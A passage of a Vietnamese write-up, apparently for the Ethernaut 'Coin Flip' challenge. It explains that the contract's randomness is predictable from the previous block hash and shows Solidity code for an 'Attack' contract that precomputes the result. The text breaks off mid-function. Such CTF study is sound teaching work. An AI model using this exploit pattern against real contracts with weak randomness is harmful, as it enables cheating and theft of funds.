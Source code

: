 ```js
}
```

### Coin Flip Solution

- Đầu tiên, khẳng định một điều rằng: việc tự đoán 10 lần đúng liên tiếp bằng đỏ đen gần như là bất khả thi.
- Nhận thấy rằng trong function flip() có tính toán mặt sấp/ngửa sau đó submit kết quả luôn, nên ta không thể biết được kết quả tính toán là gì để can thiệp vào quá trình submit. Tuy nhiên nó gợi ý tưởng cho ta có thể viết một contract khác chia function đó ra làm đôi, một function có nhiệm vụ tính toán và một function có nhiệm vụ submit kết quả.
- Đã đến lúc phải code, ta sẽ sử dụng Remix IDE thay cho Chrome console. Ta sẽ viết một contract **Attack** khác như sau, nhớ hay thế biến target bằng địa chỉ instance của bạn:

```js
pragma solidity ^0.4.18;


contract CoinFlip {
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  function CoinFlip() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(block.blockhash(block.number-1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = uint256(uint256(blockValue) / FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}


contract Attack {
  CoinFlip cf;
  // replace target by your instance address
  address target = 0x6638326b577520c1eb0856745f294582b64ce96d;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  function Attack() {
    cf = CoinFlip(target);
  }

  function calc() public view returns (bool){
    uint256 blockValue = uint256(block.blockhash(block.number-1));

    if (lastHash == blockValue) {
```